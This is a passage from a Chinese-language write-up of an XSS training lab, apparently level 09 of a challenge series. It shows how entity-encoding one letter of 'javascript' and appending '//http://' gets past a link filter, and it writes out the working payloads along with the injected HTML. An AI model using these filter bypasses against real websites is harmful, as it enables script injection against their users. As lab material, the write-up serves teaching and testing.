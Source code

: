好吧，有上述后端源代码可得，我们之前的***所有注入方法均失效了！**这里我们引入一个新的知识点，也是 href 属性的一个特性，即 **href 传入的 URI 中，也可以使用 HTML 字符实体，在打开链接时，字符实体也会被转换为对应的字符！**

值得注意的是：HTML 实体有两种写法，第一种是之前提到的 `&entity_name;` 形式，比如 `$lt;` 表示小于号；第二种是 `&#entity_number;` 形式，其中 entity_number 是字符的实体编号，比如 `<` 也能表示小于号。使用第二种方式，任何字符（包括 ASCII 字符）都有其实体表示。可以使用[这个工具](https://mothereff.in/html-entities)来转换。

对于这题，为了绕过 `javascript` 这个词的屏蔽，我们将 i 写为其字符实体 `i` 即可：

```html
javascr&#x69;pt:alert()
```



## 第 09 关：href 中可使用 HTML 实体

在输入框直接注入 `<script>alert('hi')</script>`，然后右击查看网页源代码，发现输入框 <input> 标签里面的内容被 HTML 实体化了，但是但是但是会发现单引号`'`没有被实体化！（但是依旧无法利用此漏洞来闭合绕过，因为属性 value 的闭合符号为双引号`"`），<a> 标签里 href 属性的内容是后端代码的返回值！

```html
<input name=keyword  value="&lt;script&gt;alert('hi')&lt;/script&gt;">
<input type=submit name=submit value=添加友情链接 />
```

```html
<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>
```

如何输入一个应该合法的链接呢？

```html
<input name=keyword  value="http://goog.tech">
<input type=submit name=submit value=添加友情链接 />
```

```html
<center><BR><a href="http://goog.tech">友情链接</a></center><center>
```

那么问题来了，后端代码是怎么判断一个链接是否"合法"呢？最简单的方法应该是判断是否包含关键字`http://`，Ok，我们来试一下：

```js
http://" onclick="alert()
```

运行结果如下，的确证实了我们的想法，但是问题又来了，<a> 标签 href 属性中的内容被 HTML 实体化了，且进行了关键字替换！

```html
<center><BR><a href="http://&quot o_nclick=&quotalert()">友情链接</a></center>
```

看起来有些无解的感觉... 但是我们使用上一关的 payload（绕过 HTML 实体化以及关键字替换），并在其后加上 `http://`（绕过关键字检查）！

````js
// 通过 JS 注释符号 // 来 `http://` 注释掉，防止其影响到前面 JS 的执行
javascr&#x69;pt:alert()//http://
````

注入结果如下，注入成功！！！

```html
<center><BR><a href="javascr&#x69;pt:alert()//http://">友情链接</a></center>
```
